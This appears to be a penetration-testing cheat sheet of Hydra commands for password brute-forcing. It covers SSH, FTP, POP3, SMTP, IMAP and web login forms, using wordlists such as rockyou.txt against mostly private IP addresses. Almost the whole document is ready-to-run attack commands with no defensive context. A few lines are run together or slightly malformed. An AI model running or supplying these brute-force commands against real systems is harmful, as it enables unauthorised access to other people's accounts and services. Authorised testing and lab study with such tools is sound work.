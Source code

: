 # Hydra



`hydra -l bob -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.15`

OR

`hydra -L user.txt -p password123 ssh://10.1.1.2`

OR both!

`hydra -l user -P passlist.txt ftp://192.168.0.1 hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5 hydra -l admin -p password ftp://[192.168.0.0/24]/ hydra -L logins.txt -P pws.txt -M targets.txt ssh`

OR

```text
hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin
```

OR

```text
hydra -L etcpwdusers.txt -e nsr 192.168.111.100 ssh
```

#### FTP Brute Force:

```text
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V
```

#### POP3 Brute Force:

```text
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V
```

#### SMTP Brute Force:

```text
hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V
```

Use -t to limit concurrent connections, example: -t 15

#### Web Login Form:

```text
hydra -L /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/rockyou.txt -s 8080 -f 10.129.35.106 http-get /manager/html
```

#### SSH:

```text
hydra -l root -p admin 192.168.1.105 -t 4 ssh
```

